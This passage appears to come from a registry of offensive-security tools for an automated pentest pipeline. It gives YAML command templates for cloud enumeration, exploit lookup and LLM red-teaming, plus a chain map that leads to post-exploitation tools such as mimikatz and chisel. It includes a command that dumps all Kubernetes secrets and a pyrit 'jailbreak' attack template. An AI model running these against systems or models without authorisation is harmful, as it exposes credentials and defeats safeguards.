      output: "outputs/cloud/cloudfox/{profile}-env/"
      parse: "cat {output}/*.txt 2>/dev/null | head -50"
    permissions:
      template: "cloudfox aws -p {profile} permissions -o {output}"
      flags: "--regions us-east-1"
      output: "outputs/cloud/cloudfox/{profile}-permissions/"
      parse: "cat {output}/*.txt 2>/dev/null | head -50"
    roles:
      template: "cloudfox aws -p {profile} roles -o {output}"
      flags: "--regions us-east-1"
      output: "outputs/cloud/cloudfox/{profile}-roles/"
      parse: "cat {output}/*.txt 2>/dev/null | head -50"
  feeds_into: [pacu, scoutsuite]
```

### pacu

```yaml
pacu:
  category: cloud-infrastructure
  install: pip install pacu
  binary: pacu
  version_check: pacu --version 2>&1 | head -1
  output_format: json
  command_variants:
    import:
      template: "pacu --import-session {session_name} --output {output}"
      flags: "--import-session"
      output: "outputs/cloud/pacu/{session_name}/"
      parse: "ls {output}"
    run:
      template: "pacu --session {session_name} --exec 'run {module}' --output {output}"
      flags: "--session --exec"
      output: "outputs/cloud/pacu/{session_name}-{module}/"
      parse: "cat {output}/downloads/* 2>/dev/null || ls {output}"
    list-modules:
      template: "pacu --session {session_name} --exec 'list' > {output}"
      flags: "--session --exec"
      output: "outputs/cloud/pacu/{session_name}-modules.txt"
      parse: "grep -E '^[a-z]' {output}"
  feeds_into: [scoutsuite, cloudfox]
```

### scoutsuite

```yaml
scoutsuite:
  category: cloud-infrastructure
  install: pip install scoutsuite
  binary: scout
  version_check: scout --version 2>&1 | head -1
  output_format: json
  command_variants:
    aws:
      template: "scout aws --profile {profile} --report-dir {output}"
      flags: "--region us-east-1 --no-browser"
      output: "outputs/cloud/scoutsuite/{profile}/"
      parse: "cat {output}/report.html | grep -oP 'severity=\"[^\"]+\"' | sort | uniq -c"
    azure:
      template: "scout azure --cli --report-dir {output}"
      flags: "--no-browser"
      output: "outputs/cloud/scoutsuite/azure-{tenant}/"
      parse: "cat {output}/report.html | grep -oP 'severity=\"[^\"]+\"' | sort | uniq -c"
  feeds_into: [pacu, cloudfox]
```

### kubectl

```yaml
kubectl:
  category: cloud-infrastructure
  install: apt install kubectl -y
  binary: kubectl
  version_check: kubectl version --client 2>&1 | head -1
  output_format: text
  command_variants:
    get-all:
      template: "kubectl get all --all-namespaces -o wide > {output}"
      flags: "--all-namespaces -o wide"
      output: "outputs/cloud/kubectl/{context}-all-resources.txt"
      parse: "grep -E 'ClusterIP|NodePort|LoadBalancer|CrashLoopBackOff|Error|ImagePullBackOff' {output}"
    describe:
      template: "kubectl describe {resource_type} -n {namespace} > {output}"
      flags: "-n {namespace}"
      output: "outputs/cloud/kubectl/{context}-describe-{resource}.txt"
      parse: "grep -E 'Mounts|Volumes|Port|Image|Command|Args|Env|Secret|ConfigMap|ServiceAccount' {output}"
    secrets:
      template: "kubectl get secrets --all-namespaces -o json > {output}"
      flags: "--all-namespaces -o json"
      output: "outputs/cloud/kubectl/{context}-secrets.json"
      parse: "cat {output} | jq '.items[] | {name: .metadata.name, ns: .metadata.namespace, type: .type}'"
    auth-check:
      template: "kubectl auth can-i --list > {output}"
      flags: ""
      output: "outputs/cloud/kubectl/{context}-auth.txt"
      parse: "grep -E 'create|update|delete|impersonate|\\*' {output}"
    rbac:
      template: "kubectl get clusterrole,clusterrolebinding,role,rolebinding --all-namespaces -o wide > {output}"
      flags: "--all-namespaces -o wide"
      output: "outputs/cloud/kubectl/{context}-rbac.txt"
      parse: "grep -E 'cluster-admin|system:masters|\\*' {output}"
  feeds_into: [trivy]
```

---

## 10. CVE & Exploit Research

### searchsploit

```yaml
searchsploit:
  category: cve-exploit-research
  install: apt install exploitdb -y
  binary: searchsploit
  version_check: searchsploit --version 2>&1 | head -1
  output_format: text
  command_variants:
    search:
      template: "searchsploit {query} > {output}"
      flags: "-t"
      output: "outputs/cve/searchsploit/{query}-results.txt"
      parse: "grep -E '\\| .*\\| .*\\|' {output} | head -20"
    cve:
      template: "searchsploit --cve {cve_id} > {output}"
      flags: "--cve"
      output: "outputs/cve/searchsploit/{cve_id}.txt"
      parse: "grep -E 'Exploit Title|Path|Type|Platform' {output}"
    exact:
      template: "searchsploit -e {term} > {output}"
      flags: "-e"
      output: "outputs/cve/searchsploit/{term}-exact.txt"
      parse: "grep -E '\\| .*\\| .*\\|' {output}"
    mirror:
      template: "searchsploit -m {edb_id} -o {output}"
      flags: "-m {edb_id}"
      output: "outputs/cve/searchsploit/exploits/{edb_id}.{ext}"
      parse: "wc -l {output}"
  feeds_into: []
```

### nuclei (CVE scanning)

```yaml
nuclei_cve:
  category: cve-exploit-research
  install: apt install nuclei -y (same binary as scanning)
  binary: nuclei
  version_check: nuclei --version 2>&1 | head -1
  output_format: json
  command_variants:
    specific-cve:
      template: "nuclei -u {target} -id {cve_id} -o {output}"
      flags: "-stats -silent -rl 50"
      output: "outputs/cve/nuclei/{cve_id}-{target}.txt"
      parse: "cat {output}"
    latest-cves:
      template: "nuclei -u {target} -tags cve -severity critical,high -o {output}"
      flags: "-stats -silent -rl 50 -severity critical,high"
      output: "outputs/cve/nuclei/{target}-critical-cves.txt"
      parse: "cat {output} | jq -s '[.[] | {id: .template-id, name: .info.name, severity: .info.severity}]'"
    cwe:
      template: "nuclei -u {target} -tags {cwe_tag} -o {output}"
      flags: "-stats -silent -rl 50"
      output: "outputs/cve/nuclei/{target}-{cwe_tag}.txt"
      parse: "cat {output}"
  feeds_into: [searchsploit]
```

### poc-rate-limiter

```yaml
poc_rate_limiter:
  category: cve-exploit-research
  install: "pip install requests aiohttp"  # custom wrapper script
  binary: poc-rate-limiter.py
  version_check: python3 poc-rate-limiter.py --help 2>&1 | head -1
  output_format: json
  command_variants:
    sequential:
      template: "python3 poc-rate-limiter.py --target {target} --poc-list {poc_file} --output {output}"
      flags: "--delay 1 --max-retries 3"
      output: "outputs/cve/poc-rate-limiter/{target}-sequential.json"
      parse: "cat {output} | jq '.results[] | {poc: .poc_id, status: .status, latency: .latency_ms}'"
    concurrent:
      template: "python3 poc-rate-limiter.py --target {target} --poc-list {poc_file} --parallel --output {output}"
      flags: "--parallel --max-concurrent 5 --max-retries 2"
      output: "outputs/cve/poc-rate-limiter/{target}-concurrent.json"
      parse: "cat {output} | jq '.results[] | {poc: .poc_id, status: .status, latency: .latency_ms}'"
  feeds_into: [nuclei, searchsploit]
```

---

## 11. AI / LLM Security

### garak

```yaml
garak:
  category: ai-llm-security
  install: pip install garak
  binary: garak
  version_check: garak --version 2>&1 | head -1
  output_format: json
  command_variants:
    scan:
      template: "garak --model_type {model_type} --model_name {model_name} --probes {probes} --output {output}"
      flags: "--probes all"
      output: "outputs/ai/garak/{target}-report.json"
      parse: "cat {output} | jq '.results[] | {probe: .probe_name, status: .status, severity: .severity, output: .output[:100]}'"
    probe:
      template: "garak --model_type {model_type} --model_name {model_name} --probes {probe} --output {output}"
      flags: "--probes {probe}"
      output: "outputs/ai/garak/{target}-{probe}.json"
      parse: "cat {output} | jq '.results[] | {probe: .probe_name, status: .status, attempts: .attempts}'"
    list:
      template: "garak --list_probes > {output}"
      flags: "--list_probes"
      output: "outputs/ai/garak/available-probes.txt"
      parse: "grep -E '^[a-z]' {output}"
  feeds_into: [pyrit]
```

### pyrit

```yaml
pyrit:
  category: ai-llm-security
  install: pip install pyrit
  binary: pyrit
  version_check: pyrit --version 2>&1 | head -1
  output_format: json
  command_variants:
    attack:
      template: "pyrit attack --target {target} --technique {technique} --output {output}"
      flags: "--technique jailbreak"
      output: "outputs/ai/pyrit/{target}-{technique}.json"
      parse: "cat {output} | jq '.results[] | {technique: .technique, success: .success, response: .response[:100]}'"
    redteam:
      template: "pyrit redteam --target {target} --scenario {scenario} --output {output}"
      flags: "--scenario full"
      output: "outputs/ai/pyrit/{target}-redteam.json"
      parse: "cat {output} | jq '.scenarios[] | {name: .name, success_rate: .success_rate, findings: .findings}'"
    score:
      template: "pyrit score --target {target} --benchmark {benchmark} --output {output}"
      flags: "--benchmark security"
      output: "outputs/ai/pyrit/{target}-score.json"
      parse: "cat {output} | jq '.scores[] | {category: .category, score: .score, max_score: .max_score}'"
  feeds_into: [garak, promptfoo]
```

### promptfoo

```yaml
promptfoo:
  category: ai-llm-security
  install: npm install -g promptfoo
  binary: promptfoo
  version_check: promptfoo --version 2>&1 | head -1
  output_format: json
  command_variants:
    eval:
      template: "promptfoo eval -c {config} -o {output}"
      flags: "--verbose"
      output: "outputs/ai/promptfoo/{target}-eval.json"
      parse: "cat {output} | jq '.results[] | {prompt: .prompt[:100], pass: .pass, score: .score, response: .response[:100]}'"
    list:
      template: "promptfoo list > {output}"
      flags: ""
      output: "outputs/ai/promptfoo/available-providers.txt"
      parse: "grep -E '^[a-z]' {output}"
    share:
      template: "promptfoo share -o {output}"
      flags: ""
      output: "outputs/ai/promptfoo/{target}-share.json"
      parse: "cat {output} | jq '.url'"
  feeds_into: [pyrit]
```

### a2a-discovery

```yaml
a2a_discovery:
  category: ai-llm-security
  install: pip install a2a
  binary: a2a-discovery
  version_check: a2a-discovery --version 2>&1 | head -1
  output_format: json
  command_variants:
    discover:
      template: "a2a-discovery discover --target {target} --output {output}"
      flags: "--timeout 30 --max-agents 100"
      output: "outputs/ai/a2a/{target}-agents.json"
      parse: "cat {output} | jq '.agents[] | {name: .name, endpoint: .endpoint, capabilities: .capabilities}'"
    probe:
      template: "a2a-discovery probe --agent {agent_url} --output {output}"
      flags: "--timeout 15"
      output: "outputs/ai/a2a/{target}-agent-capabilities.json"
      parse: "cat {output} | jq '.capabilities[] | {name: .name, description: .description, auth_required: .auth_required}'"
  feeds_into: [pyrit, garak]
```

---

## Pipeline Integration

The tool registry enables automatic pipeline generation. Example pipelines:



## Feeds Into Chain Map

| Source Tool | Feeds Into |
|-------------|-----------|
| subfinder | dnsx, httpx, nuclei, gau |
| amass | dnsx, httpx, nuclei |
| dnsx | httpx, nuclei, nmap |
| dnsrecon | dnsx, nmap |
| dig | dnsx, dnsrecon, nmap |
| httpx | nuclei, katana, ffuf, dalfox, wpscan |
| nmap | nuclei, searchsploit, nmap-nse |
| masscan | nmap, nuclei |
| smap | nmap, nuclei, whatweb |
| katana | nuclei, dalfox, ffuf, sqlmap, gau |
| gau | katana, nuclei, dalfox, sqlmap, ffuf |
| waybackurls | katana, nuclei, dalfox, ffuf |
| crt.sh | subfinder, dnsx, httpx |
| whois | subfinder, amass, nmap |
| whatweb | nuclei, wpscan, dalfox, nikto |
| ffuf | nuclei, sqlmap, dalfox, katana |
| gobuster | nuclei, sqlmap, s3scanner |
| feroxbuster | nuclei, sqlmap, dalfox |
| dirsearch | nuclei, sqlmap, dalfox |
| arjun | sqlmap, dalfox, nuclei |
| paramspider | sqlmap, dalfox, nuclei |
| kiterunner | nuclei, sqlmap |
| wfuzz | nuclei, sqlmap, dalfox |
| nuclei | searchsploit, sqlmap |
| nikto | sqlmap, searchsploit |
| owasp_zap | sqlmap, dalfox, searchsploit |
| wapiti | sqlmap, dalfox |
| dalfox | sqlmap |
| testssl_sh | nuclei |
| wpscan | sqlmap, searchsploit |
| jaeles | searchsploit |
| sqlmap | commix, chisel |
| commix | chisel, linpeas |
| tplmap | chisel |
| hydra | john, hashcat, impacket |
| john | hashcat, impacket |
| hashcat | impacket |
| certipy | impacket, bloodhound |
| semgrep | bandit, trivy |
| bandit | semgrep |
| gitleaks | trufflehog, trivy |
| trufflehog | gitleaks, trivy |
| trivy | grype, snyk |
| grype | trivy, snyk |
| snyk | trivy |
| linpeas | chisel, impacket |
| winpeas | chisel, impacket |
| chisel | nmap-nse, ligolo-ng |
| ligolo-ng | nmap-nse |
| nmap-nse | bloodhound, impacket |
| bloodhound | certipy, impacket |
| mimikatz | impacket, bloodhound |
| impacket | bloodhound, chisel |
| playwright | mitmproxy |
| mitmproxy | burpsuite, katana, nuclei |
| caido | burpsuite, nuclei |
| burpsuite | nuclei, sqlmap, dalfox |
| s3scanner | cloudfox, trivy |
| cloudfox | pacu, scoutsuite |
| pacu | scoutsuite, cloudfox |
| scoutsuite | pacu, cloudfox |
| kubectl | trivy |
| nuclei (CVE) | searchsploit |
| poc-rate-limiter | nuclei, searchsploit |
| garak | pyrit |
| pyrit | garak, promptfoo |
| promptfoo | pyrit |
| a2a-discovery | pyrit, garak |

---

## Tool Categories Summary

```
reconnaissance/    15 tools  subfinder, amass, dnsx, dnsrecon, dig, httpx, nmap, masscan,
                             smap, katana, gau, waybackurls, crt.sh, whois, whatweb
discovery/          8 tools  ffuf, gobuster, feroxbuster, dirsearch, arjun, paramspider,
                             kiterunner, wfuzz
scanning/           8 tools  nuclei, nikto, owasp_zap, wapiti, dalfox, testssl_sh, wpscan,
                             jaeles
injection/          7 tools  sqlmap, commix, tplmap, nosqlmap, hydra, john, hashcat
authentication/     4 tools  jwt_tool, jwt_cracker, oauth2_proxy, certipy
sast/               8 tools  semgrep, bandit, codeql, gitleaks, trufflehog, trivy, grype,
                             snyk
post-exploitation/  8 tools  linpeas, winpeas, chisel, ligolo_ng, nmap_nse, bloodhound,
                             mimikatz, impacket
browser-proxy/      4 tools  playwright, mitmproxy, caido, burpsuite
cloud/              5 tools  s3scanner, cloudfox, pacu, scoutsuite, kubectl
cve/                3 tools  searchsploit, nuclei_cve, poc_rate_limiter
ai-llm/             4 tools  garak, pyrit, promptfoo, a2a_discovery
```

<!-- Generated: 2026-07-03 --><!-- Total tools: 74 across 11 domains -->
